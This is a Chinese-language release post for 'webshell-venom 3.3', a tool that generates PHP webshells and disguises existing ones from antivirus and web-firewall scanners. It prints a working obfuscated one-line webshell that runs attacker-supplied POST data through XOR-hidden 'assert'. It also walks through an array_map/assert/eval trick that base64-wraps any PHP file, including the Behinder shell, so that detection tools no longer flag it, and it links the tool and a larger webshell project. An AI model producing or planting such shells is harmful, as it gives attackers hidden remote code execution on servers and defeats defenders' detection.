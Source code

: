 # webshell-venom 3.3 :利用随机异或免杀任意php文件


<meta name="referrer" content="no-referrer" />

## 前言

没想到这么快就800颗星了

这次算是一次比较重大的更新，具体情况请看下文。

## webshell-venom 3.3 更新日志

1. 代码结构优化，更清爽，方便自定义开发。
2. 减小shell体积。

1. 增加利用随机异或免杀任意php文件功能。

## 1. 结构优化

先上图吧

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900435455-074170ad-2234-4ca3-b748-bb200b5716d3.png)

原来因为随手写的脚本，代码其实比较乱

这次整个重构了一遍，把随机的变量名随机字符串给标注了出来

shell结构一目了然，方便大家自己二次开发。

当然结构写的清爽也带来一些问题

比如说厂商写查杀正则的时候更方便了。。。

不过就像我一直强调的

**重要的从来不是脚本，而是思路**

只靠我一个人更新肯定是不行的

我在脚本里提供了很多公共函数，自己稍微修改一下就可以bypass。

## 2. 减小体积

这个自己生成一下就能看得到，不讲了。

```
<?php
class QCON{
    function __destruct(){
        $ARIK='cnP*lm'^"\x2\x1d\x23\x4f\x1e\x19";
        return @$ARIK("$this->DGBO");
    }
}
$qcon=new QCON();
@$qcon->DGBO=isset($_GET['id'])?base64_decode($_POST['mr6']):$_POST['mr6'];
?>
```

## 3.对任意php文件免杀

这个是本文的重点，也是这次更新的重要部分，着重讲一下吧。

### 首先区分免杀跟加密的区别

- 加密就是让别人看不到源码
- 免杀是绕过waf的检测，使其无法识别为木马

- 单纯加密不一定可以免杀，但是免杀少不了加密

单纯加密的话百度搜一下php在线加密，一大堆网站

但是用过的都知道加密之后虽然谁都不认得了，但是D盾会报二级加密脚本

二级肯定不是咱们的目的，所以就要做0级的免杀。

### 任意文件免杀原理

首先大家要知道一点:

**随便一个被D盾杀的妈都不认的shell，base64或者hex等编码后waf都不认得**

所以思路就是：

先把原来的payload，给处理一遍

然后通过函数调用来解密并执行payload

### 如何调用

处理的话脚本中就是用的base64

那么如何调用呢

其实如果用eval的话很好写，随便改一下就免杀了

但是eval是一种语言结构不是函数，也就是不能像assert一样拆分就很难受

自己有点强迫症，shell中不能出现eval等关键字，不然会被最简单的字符串搜索查找到shell

所以就想到了assert

但是问题来了，assert不能执行多句

也就是说

```
assert(echo 1; echo 2; ); //差不多这个意思。。。
```

最后只回显一个1，也就是只执行第一句话。

但是所要免杀的php文件肯定不止一句话

所以一般assert就要配合eval使用

也就是`assert(eval(xxx;xxx;xxx;));`这种

还是有eval，那我还用个鸡儿的assert。。。

### 解决办法

研究了一下，发现利用array_map+assert+eval

加个数组处理就可以把eval给拆分掉了

```
array_map('u?ldOQ'^"\x14\x4c\x1f\x1\x3d\x25",array(('P/f}'^"\x35\x59\x7\x11")."(base64_decode('xxxxxxxx'));"));
```

上面的两个异或的字符串分别是assert跟eval

哈，然后放在类里调用一下就免杀了。

## 使用方法

```
python3 php-venom-3.3.py    #生成免杀一句话
python3 php-venom-3.3.py shell.php   # 对同目录下shell.php进行免杀处理，保存在shell.php.bypass.php
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900435556-df46a525-c961-4926-80af-bb7b6500ae47.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900435643-60c1e71f-88d8-40f2-bbfa-5876ad3b6619.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900435736-5fc5eb65-b20e-4bec-8766-0f164daeff62.png)

## 免杀冰蝎

举个栗子，就免杀冰蝎吧。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900435834-9d08cb0d-1f1e-48a7-a9f1-c9d618c3647b.png)

## 更多玩法

还可以免杀我上次发的自己二次开发的大马

大马地址：

https://github.com/yzddmr6/BestShell

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900435960-19eb6d04-092e-4416-9db4-7cfdd5d90e8f.png)

200kb好像有点大。。。

想减小体积的话自己加个gzin压缩吧

免杀后的demo已经放到大马项目里了

## 不足之处

python的base64函数有点傻逼，不会自己检测源文件的编码方式php是世界上最好的语言

我在脚本里用了 chardet 模块来探测可能的编码

但是用了一下发现不能做到百分百正确识别

utf8的没问题，遇到其他编码就容易乱码

如果gbk乱码的话就自己手工base64一遍替换payload吧

## 项目地址

https://github.com/yzddmr6/webshell-venom
